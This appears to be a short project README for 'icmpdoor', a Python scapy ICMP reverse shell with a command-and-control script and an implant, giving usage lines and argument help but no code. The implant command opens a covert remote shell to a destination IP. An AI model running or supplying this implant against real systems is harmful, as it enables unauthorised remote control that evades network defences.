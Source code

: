 # Python3 ICMP reverse shell 
ICMP reverse shell with python3 scapy

Usage:

icmp-cnc.py [-h] -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py [-h] -i INTERFACE -d DESTINATION_IP (Implant)

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
